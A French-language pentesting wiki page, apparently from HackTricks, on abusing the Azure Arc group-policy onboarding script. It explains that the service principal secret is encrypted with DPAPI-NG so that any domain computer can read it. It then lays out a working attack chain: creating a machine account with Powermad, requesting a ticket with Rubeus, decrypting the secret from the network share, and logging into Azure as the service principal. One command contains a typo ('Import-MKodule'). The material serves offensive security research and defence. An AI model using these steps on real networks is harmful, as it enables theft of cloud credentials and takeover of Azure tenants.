 # Az - Arc script de déploiement GPO vulnérable

{{#include ../../../banners/hacktricks-training.md}}

### Identification des problèmes

Azure Arc permet l'intégration de nouveaux serveurs internes (serveurs de domaine joints) dans Azure Arc en utilisant la méthode de l'objet de stratégie de groupe. Pour faciliter cela, Microsoft fournit un kit d'outils de déploiement nécessaire pour initier la procédure d'intégration. Dans le fichier ArcEnableServerGroupPolicy.zip, les scripts suivants peuvent être trouvés : DeployGPO.ps1, EnableAzureArc.ps1 et AzureArcDeployment.psm1.

Lors de son exécution, le script DeployGPO.ps1 effectue les actions suivantes :

1. Crée le GPO d'intégration des serveurs Azure Arc au sein du domaine local.
2. Copie le script d'intégration EnableAzureArc.ps1 dans le partage réseau désigné créé pour le processus d'intégration, qui contient également le package d'installation Windows.

Lors de l'exécution de ce script, les administrateurs système doivent fournir deux paramètres principaux : **ServicePrincipalId** et **ServicePrincipalClientSecret**. De plus, il nécessite d'autres paramètres tels que le domaine, le FQDN du serveur hébergeant le partage et le nom du partage. D'autres détails tels que l'ID de locataire, le groupe de ressources et d'autres informations nécessaires doivent également être fournis au script.

Un secret chiffré est généré dans le répertoire AzureArcDeploy sur le partage spécifié en utilisant le chiffrement DPAPI-NG. Le secret chiffré est stocké dans un fichier nommé encryptedServicePrincipalSecret. Des preuves de cela peuvent être trouvées dans le script DeployGPO.ps1, où le chiffrement est effectué en appelant ProtectBase64 avec $descriptor et $ServicePrincipalSecret comme entrées. Le descripteur se compose des SID des groupes Domain Computer et Domain Controller, garantissant que le ServicePrincipalSecret ne peut être déchiffré que par les groupes de sécurité Domain Controllers et Domain Computers, comme noté dans les commentaires du script.
```bash
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

Nous avons les conditions suivantes :

1. Nous avons réussi à pénétrer le réseau interne.
2. Nous avons la capacité de créer ou de prendre le contrôle d'un compte d'ordinateur au sein d'Active Directory.
3. Nous avons découvert un partage réseau contenant le répertoire AzureArcDeploy.

Il existe plusieurs méthodes pour obtenir un compte machine dans un environnement AD. L'une des plus courantes consiste à exploiter le quota de compte machine. Une autre méthode implique de compromettre un compte machine via des ACL vulnérables ou diverses autres mauvaises configurations.
```bash
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Une fois qu'un compte machine est obtenu, il est possible de s'authentifier en utilisant ce compte. Nous pouvons soit utiliser la commande runas.exe avec le drapeau netonly, soit utiliser pass-the-ticket avec Rubeus.exe.
```bash
runas /user:fake01$ /netonly powershell
```

```bash
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
En ayant le TGT pour notre compte d'ordinateur stocké en mémoire, nous pouvons utiliser le script suivant pour déchiffrer le secret du principal de service.
```bash
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternativement, nous pouvons utiliser [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

À ce stade, nous pouvons rassembler les informations restantes nécessaires pour se connecter à Azure à partir du fichier ArcInfo.json, qui est stocké sur le même partage réseau que le fichier encryptedServicePrincipalSecret. Ce fichier contient des détails tels que : TenantId, servicePrincipalClientId, ResourceGroup, et plus encore. Avec ces informations, nous pouvons utiliser Azure CLI pour nous authentifier en tant que service principal compromis.

## Références

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{{#include ../../../banners/hacktricks-training.md}}
